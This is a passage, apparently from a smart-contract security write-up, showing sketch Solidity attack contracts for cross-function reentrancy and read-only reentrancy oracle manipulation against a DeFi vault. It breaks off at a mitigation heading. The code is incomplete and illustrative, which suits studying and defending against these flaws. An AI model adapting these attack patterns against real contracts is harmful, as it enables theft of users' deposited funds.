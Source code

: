 ```solidity
            
            // Deposit at inflated price
            vault.deposit(100e18, address(this));
        }
    }
}
```

### Vector 2: Cross-Function Attack Pattern

```solidity
contract CrossFunctionAttack {
    function initiateAttack(Vault vault) external {
        // Start with deposit function
        vault.deposit(attackAmount, address(this));
    }
    
    // Token callback triggers cross-function call
    function onTokenTransfer(address, uint256, bytes calldata) external {
        // Call different function while first is incomplete
        vault.redeem(vault.maxRedeem(address(this)), address(this), address(this));
        
        // Or manipulate oracle-dependent function
        vault.harvest();
    }
}
```

### Vector 3: Read-Only Reentrancy Oracle Manipulation

```solidity
contract OracleManipulation {
    function manipulateOracle(Vault vault, DeFiProtocol protocol) external {
        // Protocol uses vault.getPricePerShare() as oracle
        
        // Initiate deposit that will manipulate price
        maliciousToken.initiateTransfer(address(vault));
        
        // During transfer callback:
        // 1. vault.totalAssets() returns new balance
        // 2. vault.totalSupply() returns old supply
        // 3. getPricePerShare() returns inflated value
        // 4. Protocol makes decision based on wrong price
        
        // Profit from protocol's wrong decision
        protocol.borrow(maxAmount);
    }
}
```

## Mitigation Strategies
